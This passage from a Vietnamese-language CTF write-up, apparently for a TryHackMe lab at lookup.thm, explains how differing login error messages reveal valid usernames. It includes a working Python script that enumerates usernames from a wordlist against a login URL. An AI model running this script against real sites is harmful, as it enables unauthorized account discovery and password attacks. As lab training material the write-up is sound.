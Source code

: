 - Tuy nhiên sau khi thử với username là `admin` thì nhận được thông báo có phần khác. Cụ thể nhận được thông báo sai mật khẩu.

![Hoang](Images/7.png)

- Đây là một lỗi khiến ta biết được tài khoản `admin` là hợp lệ, từ đó có thể thử các username khác nhau và tìm được tên hợp lệ.

- Có thể sử dụng các công cụ có sẵn để brute force tài khoản, nhưng trong bài này, tôi tạo một đoạn python code để dò tài khoản hợp lệ:

```python
import requests
import argparse
import sys

def enumerate_usernames(url, wordlist_path):
    try:
        with open(wordlist_path, 'r') as file:
            usernames = [line.strip() for line in file]
    except FileNotFoundError:
        print(f"[!] File not found: {wordlist_path}")
        sys.exit(1)

    print(f"[+] Starting username enumeration on {url}")
    
    for username in usernames:
        data = {
            "username": username,
            "password": "1234"  # Mật khẩu giả định
        }

        try:
            response = requests.post(url, data=data, timeout=5)
        except requests.RequestException as e:
            print(f"[!] Request failed for {username}: {e}")
            continue

        if "Wrong password" in response.text:
            print(f"[+] Valid username found: {username}")
        elif "Wrong username or password" in response.text:
            print(f"[-] Invalid username: {username}")
        else:
            print(f"[?] Unexpected response for {username}")
    
    print("[+] Enumeration finished.")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Username enumeration via error-based responses.")
    parser.add_argument("-u", "--url", required=True, help="Target login URL (e.g. http://lookup.thm/login.php)")
    parser.add_argument("-w", "--wordlist", required=True, help="Path to username wordlist")

    args = parser.parse_args()
    enumerate_usernames(args.url, args.wordlist)
```